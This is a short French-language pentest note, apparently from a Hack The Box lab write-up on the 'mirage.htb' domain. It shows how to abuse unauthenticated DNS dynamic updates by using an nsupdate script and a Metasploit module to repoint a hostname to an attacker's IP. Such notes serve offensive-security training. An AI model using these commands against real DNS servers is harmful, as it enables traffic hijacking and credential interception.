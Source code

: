 
> [!TIP]
> Si paramétré, Le serveur DNS accepte l'update des enregistrement DNS de la part de n'importe qui, autrement dit il est possible de forcer un enregistrement DNS à pointer vers une IP malicieuse. 


## NSUPDATE

Créer un fichier dnsupdate.txt contenant les informations à mettre à jour.

```
server <ip_serveur>
zone mirage.htb
update delete nats-svc.mirage.htb A  
update add nats-svc.mirage.htb 60 A <YOUR_IP>  
send
```

exécuter avec la commande nsupdate

```
nsupdate dnsupdate.txt
```



### METASPLOIT 

Module "admin/dns/dyn_dns_update"

```
use admin/dns/dyn_dns_update

set rhost <DNS_server_IP>

set domain <domain.local>

set ip <IP_attacker>

set hostname <hostname_pointant_vers_ip_attacker>

exploit
```




